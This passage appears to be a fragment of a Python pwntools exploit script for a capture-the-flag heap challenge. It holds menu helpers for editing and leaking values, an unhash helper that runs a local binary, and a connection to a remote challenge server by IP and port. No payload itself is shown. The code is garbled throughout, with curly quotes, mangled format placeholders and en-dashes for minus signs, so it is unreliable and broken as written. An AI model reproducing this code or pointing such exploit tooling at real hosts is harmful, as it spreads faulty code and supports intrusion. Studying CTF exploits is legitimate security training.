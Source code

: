     io.sendlineafter(“index:\n”, str(idx))

    io.sendafter(“content:\n”, cont)

    sleep(0.01)

​

def show(idx):

    io.sendlineafter(“&gt;&gt;&gt; \n”, “4”)

    io.sendlineafter(“index:\n”, str(idx))

    return int(io.recvline().strip(), 16), int(io.recvline().strip(), 16)

​

def unhash(value, suffix):

    if suffix == “”:

        cmd = “./unhash `{``}` \”\””.format(value)

    else:

        cmd = “./unhash `{``}` `{`:x`}`”.format(value, suffix)

    # print(cmd)

    res = int(popen(cmd).read().strip(), 16)

    if res == –1:

        print(“[-] error”)

        exit(–1)

​

    print(“[+] unhash(`{`:#x`}`) = `{`:#x`}`”.format(value, res))

    return res

​

#  io = process(elf.path)

#  io = process(elf.path, env = `{`“LD_PRELOAD”: “./libc.so.6”`}`)

io = remote(“39.105.130.158”, 8888)

#  io = remote(“172.17.0.3”, 8888)

​
